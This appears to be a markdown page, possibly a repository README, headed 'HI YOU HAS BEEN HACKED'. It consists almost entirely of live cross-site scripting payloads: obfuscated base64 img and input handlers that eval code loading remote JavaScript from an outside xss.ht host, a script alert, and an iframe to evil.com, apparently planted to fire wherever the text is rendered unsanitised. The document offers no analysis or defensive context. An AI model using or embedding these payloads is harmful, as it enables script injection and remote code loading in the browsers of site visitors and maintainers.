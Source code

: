 # HI YOU HAS BEEN HACKED

## "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>
<script>alert(0)</script>
### 

"><iframe src="https://evil.com" height="700" width="100%" frameborder="0"></iframe>
